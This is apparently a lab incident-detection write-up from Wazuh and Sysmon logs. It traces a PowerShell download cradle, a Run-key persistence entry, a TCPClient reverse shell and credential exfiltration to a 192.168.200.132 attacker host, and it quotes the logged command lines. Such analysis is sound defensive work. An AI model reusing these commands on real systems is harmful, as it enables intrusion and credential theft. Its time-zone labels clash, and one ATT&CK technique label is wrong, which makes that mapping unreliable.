


# Wazuh Detection

- Victim host: DESKTOP-O674VPH (`192.168.200.137`, user `DESKTOP-O674VPH\noname`)
- Attacker host: `192.168.200.132` (HTTP :8000, TCP :4444)
- Date (UTC): `2025-08-14 ~15:56:57 → 15:57:47`
- Logging: `Wazuh`, `Sysmon`, `Powershell`

## Executive Summary

- Tải một PowerShell payload từ `http://192.168.200.132:8000/Test.ps1` và ghi xuống `C:\Users\noname\AppData\Local\Temp\payload.ps1`.
- Thực thi payload với -ep bypass.
- Cài `persistence` qua `Run key: OfficeUpdate`.
- Thiết lập reverse shell `TCP` tới `192.168.200.132:4444`.
- Gửi HTTP POST về `192.168.200.132:8000/` với dữ liệu ASCII chứa thông tin tài khoản `BANK và FB (Facebook)` → `Exfiltration`.
- Mức độ: __Critical__ `Execution + Persistence + C2 + Data Exfil`.

## Details

### 1. Aug 14, 2025 - 15:56:58.071

- Event ID: `4103 - PowerShell Operational`
- Rule ID: `100206`
- Rule description: `Invoke Webrequest executed, possible download cradle detected.`
- Detail: `Command Invocation: Invoke-WebRequest`: `http://192.168.200.132:8000/Test.ps1' -OutFile $env:TEMP\payload.ps1; powershell -ep bypass -f $env:TEMP\payload.ps1`

### 2. Aug 14, 2025 - 15:56:58.884

- Event ID: `11 - Sysmon`
- Rule ID: `92213`
- Rule description: `Executable file dropped in folder commonly used by malware`
- Rule level : `15`
- Detail: `File created`: `C:\Users\noname\AppData\Local\Temp\payload.ps1`

### 3. Aug 14, 2025 - 15:56:58.885

- Event ID: `1 - Sysmon`
- Rule ID: `92029`
- Rule description: `Powershell executed script from suspicious location`
- Rule level : `15`
- Detail: `Process Create`: `C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe" -ep bypass -f C:\Users\noname\AppData\Local\Temp\payload.ps1`

### 4. Aug 14, 2025 - 15:56:58.915

- Event ID: `13 - Sysmon`
- Rule ID: `192302`
- Rule description: `Registry entry to be executed on next logon was modified using command line application`
- Rule level : `15`
- Detail: `Registry value set`: `HKU\S-1-5-...\SOFTWARE\Microsoft\Windows\CurrentVersion\Run\OfficeUpdate`

### 5. Aug 14, 2025 - 15:56:58.995

- Event ID: `4104 - Powershell/Operational`
- Rule ID: `100502`
- Rule description: `Powershell created a new TCPClient - possible reverse shell.`
- Rule level : `15`
- Detail: `Reverse Shell`: `TCPClient('192.168.200.132',4444)`

### 6. Aug 14, 2025 - 15:57:47.948

- Event ID: `4103 - PowerShell/Operational`
- Rule ID: `100206`
- Rule description: `Invoke Webrequest executed, possible download cradle detected.`
- Rule level : `15`
- Detail: `Data Exfiltration`

## MITRE ATT&CK

### Chi tiết:

| # | Timestamp (UTC+7)       | Event ID / Rule ID | Description                                                                                     | MITRE ATT\&CK Tactic               | MITRE ATT\&CK Technique (ID / Name)                                                 |
| - | ----------------------- | ------------------ | ----------------------------------------------------------------------------------------------- | ---------------------------------- | ----------------------------------------------------------------------------------- |
| 1 | 2025-08-14 15:56:58.071 | 4103 / 100206      | **Invoke-WebRequest** tải `Test.ps1` từ máy chủ `192.168.200.132` và lưu thành `payload.ps1`    | **Command and Control**            | **T1105 – Ingress Tool Transfer** (Tải công cụ/payload từ máy chủ C2)               |
| 2 | 2025-08-14 15:56:58.884 | 11 / 92213         | File `payload.ps1` được tạo trong thư mục `%TEMP%`                                              | **Command and Control**            | **T1105 – Ingress Tool Transfer** (Lưu trữ công cụ độc hại tại endpoint)            |
| 3 | 2025-08-14 15:56:58.885 | 1 / 92029          | `powershell.exe -ep bypass -f payload.ps1` được thực thi từ vị trí đáng ngờ                     | **Execution**                      | **T1059.001 – Command and Scripting Interpreter: PowerShell**                       |
| 4 | 2025-08-14 15:56:58.915 | 13 / 192302        | Sửa registry key `HKCU\...\Run\OfficeUpdate` để thực thi khi đăng nhập                          | **Persistence / Privilege Escal.** | **T1547.001 – Boot or Logon Autostart Execution: Registry Run Keys/Startup Folder** |
| 5 | 2025-08-14 15:56:58.995 | 4104 / 100502      | PowerShell tạo TCPClient kết nối `192.168.200.132:4444` (reverse shell)                         | **Command and Control**            | **T1071.004 – Application Layer Protocol: Web Protocols** *(hoặc T1071 chung)*      |
| 6 | 2025-08-14 15:57:47.948 | 4103 / 100206      | PowerShell tiếp tục sử dụng `Invoke-WebRequest` (để `exfil` dữ liệu)| **Exfiltration / C2**              | **T1041 – Exfiltration Over C2 Channel**|